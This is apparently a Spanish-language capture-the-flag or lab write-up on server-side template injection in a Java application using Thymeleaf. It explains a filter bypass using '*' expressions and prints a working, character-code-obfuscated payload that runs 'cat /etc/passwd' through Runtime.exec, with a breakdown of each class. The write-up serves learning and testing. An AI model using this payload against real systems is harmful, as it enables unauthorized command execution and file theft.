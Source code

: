 Entonces comprobamos que no podemos escribir el simbolo `$`, por ello usamos otra expresión para variables como `#, *, @, ~`. Al final nos funciona los simbolos `#, *, @`

> Ahora podemos intentar inyectar un comando para extraer archivos:

![java-ssti](java_ssti.png){: shadow}

Al intentar el segundo commando con la expresión `*` obtuvimos el archivo `/etc/passwd`, comprobando así que es vulnerable a **Server Site Template Inyection**

![stti-search](ssti.png){: .shadow}

La respuesta de porque solo funciona con la expresión `*` es lo siguiente:

![thymeleaf-expressions](thymeleaf_expressions.png){: .shadow}

Entonces ya podemos tener una idea que el motor de plantilla que se usa es **Thymeleaf**, mas adelante lo comprobaremos al 100%

> Puedes encontrar el repositorio para **SSTI** en [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java)
{: .prompt-info}

> Analizando la inyección

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

De primeras, por el tamaño, podemos concluir que para cada letra del comando que queremos ejecutar se está usando una conversión de su valor númerico y finalmente juntarlos todos. Aquí hay un poco de que sirve cada expresión

```text
SSTI Payload:
------------

org.apache.commons.io (package) [Provides file and string comparison]

  IOUtils (class) [Provides utility methods for reading, writing and copying files]
    toString() (feature) [Read data from stream]

java.lang (package) [Provides classes that are fundamental to the design of the Java programming language]

  Runtime (class) [Used to interact with Every Java application and allows the application to interface with the environment in which the application is running]
    getRuntime() (method) [Returns the runtime object associated with the current Java application]
    exec(String command) (method) [Executes the specified string command in a separate process]

  Character (class) [The Character class wraps a value of the primitive type char in an object]
    toString(char c) (method) [Returns a String object representing the specified char]
      concat(String concatenation) (method) [Forms a new String that is the combination of multiple strings]

  Process (class) [Provides methods for performing input from the process, performing output to the process, waiting, etc]
    getInputStream() (method) [Gets the input stream of the subprocess]

# https://commons.apache.org/proper/commons-io/javadocs/api-2.4/org/apache/commons/io/package-use.html
```